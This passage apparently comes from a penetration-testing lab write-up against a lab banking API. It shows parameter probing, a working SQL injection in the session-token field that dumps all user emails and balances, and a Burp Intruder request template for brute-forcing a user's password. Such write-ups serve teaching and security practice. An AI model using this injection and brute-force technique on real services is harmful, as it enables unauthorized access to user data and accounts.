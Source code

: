 {"error":{"email":["The selected email is invalid."]}}

I can use the two emails that I found into DatabaseSeeder.php of .git folder but I receive the same error. So, analyze the balance API. Type https://192.168.101.6/api/balance into browser and this message will show up:

{"error":{"api_session_token":["The api session token field is required."],"id":["The id field is required."]}}

I need another two parameters, let's complete our API:

https://192.168.101.6/api/balance?api_session_token=aaaa&id=1

This is the output:

{"error":{"api_session_token":["The api session token must be 40 characters."]}}

Ok, just add 40 characters into the first field:

https://192.168.101.6/api/balance?api_session_token=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&id=1

The output is :

[]

It means that the API works but the result of the query is NULL because I need to insert a valid user token and the API will print to the screen the balance of the user. Let's try to SQL Inject the first parameter:

https://192.168.101.6/api/balance?api_session_token=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'OR '1'='1&id=1

This is the output:

[{"id":"1","email":"KyleEShannon@cuvox.de","balance":"37.00"}, {"id":"2","email":"EricLWhitaker@dayrep.com","balance":"59.00"}, {"id":"3","email":"PhillipSPhillips@fleckens.hu","balance":"8.00"}, {"id":"4","email":"DrewLHolloway@rhyta.com","balance":"111.00"}, {"id":"5","email":"ErnestCWilliams@cuvox.de","balance":"154.00"}, {"id":"6","email":"RobertPNetherton@cuvox.de","balance":"81.00"}, {"id":"7","email":"IsmaelNNewcomb@dayrep.com","balance":"92.00"}, {"id":"8","email":"AldenTPfaff@teleworm.us","balance":"78.00"}, {"id":"9","email":"JamesMPang@fleckens.hu","balance":"42.00"}, {"id":"10","email":"WilliamLSchmidt@armyspy.com","balance":"137.00"}, {"id":"11","email":"JohnCPerkins@teleworm.us","balance":"126.00"}, {"id":"12","email":"DonaldDRandolph@fleckens.hu","balance":"186.00"}, {"id":"13","email":"JohnMMartin@rhyta.com","balance":"186.00"}, {"id":"14","email":"MichaelJDavis@fleckens.hu","balance":"73.00"}, {"id":"15","email":"TravisMHeadrick@cuvox.de","balance":"179.00"}, {"id":"16","email":"JonathanJAlejandro@rhyta.com","balance":"67.00"}, {"id":"17","email":"JeremiahBMagee@superrito.com","balance":"73.00"}, {"id":"18","email":"ManuelTBoland@rhyta.com","balance":"35.00"}, {"id":"19","email":"EthelCMyers@einrot.com","balance":"165.00"}, {"id":"20","email":"RandyRDarden@superrito.com","balance":"20.00"}, {"id":"21","email":"JohnIHampton@teleworm.us","balance":"105.00"}, {"id":"22","email":"LesterLLenard@cuvox.de","balance":"19.00"}, {"id":"23","email":"RalphWestfall@sas-bank.lab","balance":"18.00"}]

The SQL injection worked and I have the full list of emails. Now I need a password of an email, the best choice is to start from RalphWestfall@sas-bank.lab, because his email domain is sas-bank.lab. Do you remember the auth API? Now I have a valid email but I need to find the password. I can bruteforce it with GET requests with BurpSuite Intruder. This is the attack payload:

GET /api/auth?email=RalphWestfall@sas-bank.lab&password=§something§ HTTP/1.1 Host: 192.168.101.6 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.3.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Language: en-US Accept-Encoding: gzip, deflate Connection: keep-alive
